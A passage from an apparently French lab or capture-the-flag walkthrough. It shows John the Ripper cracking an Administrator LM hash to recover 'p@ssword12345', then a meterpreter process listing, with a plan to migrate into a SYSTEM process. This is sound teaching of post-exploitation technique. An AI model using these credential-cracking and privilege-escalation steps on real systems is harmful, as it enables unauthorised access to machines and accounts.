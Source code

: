 ```shellsession
Use the "--format=nt" option to force loading these as that type instead                                                                                                                                       
Loaded 2 password hashes with no different salts (LM DES [128/128 BS AVX-16])                                                                                                                                  
D12345           (Administrator:2)                                                                                                                                                                             
guesses: 1  time: 0:00:01:12 0.04% (3)  c/s: 47036K  trying: 3LUYN4N - 3LUYPTC                                                                                                                                 
P@SSW0R          (Administrator:1)                                                                                                                                                                             
guesses: 2  time: 0:01:25:27 DONE (Wed Mar 26 15:06:06 2014)  c/s: 46616K  trying: P@SSWEG - P@SSWAU                                                                                                           
Warning: passwords printed above might be partial                                                                                                                                                              
Use the "--show" option to display all of the cracked passwords reliably
```

Le mot de passe est p@ssword12345, on peut lancer un *cmd.exe* via *runas*.  

Ou alors on continue avec notre meterpreter...  

Si on obtient un shell et que l'on tente d'aller dans le dossier administrator, l'accès est refusé :(  

C'est sans doute parce que l'on est dans un processus qui n'appartient pas à *SYSTEM*, on va donc déménager :

```plain
meterpreter > ps

Process List
============

 PID   PPID  Name              Arch  Session     User                          Path
 ---   ----  ----              ----  -------     ----                          ----
 0     0     [System Process]        4294967295                                
 4     0     System            x86   0           NT AUTHORITY\SYSTEM           
 176   360   ctfmon.exe        x86   2           BOBBY\bob                     C:\WINDOWS\system32\ctfmon.exe
 348   4     smss.exe          x86   0           NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 360   1868  explorer.exe      x86   2           BOBBY\bob                     C:\WINDOWS\Explorer.EXE
 396   348   csrss.exe         x86   0           NT AUTHORITY\SYSTEM           \??\C:\WINDOWS\system32\csrss.exe
 420   348   winlogon.exe      x86   0           NT AUTHORITY\SYSTEM           \??\C:\WINDOWS\system32\winlogon.exe
 472   420   services.exe      x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\services.exe
 484   420   lsass.exe         x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\lsass.exe
 772   472   svchost.exe       x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\System32\svchost.exe
 820   472   svchost.exe       x86   0           NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\svchost.exe
 1252  348   winlogon.exe      x86   2           NT AUTHORITY\SYSTEM           \??\C:\WINDOWS\system32\winlogon.exe

```
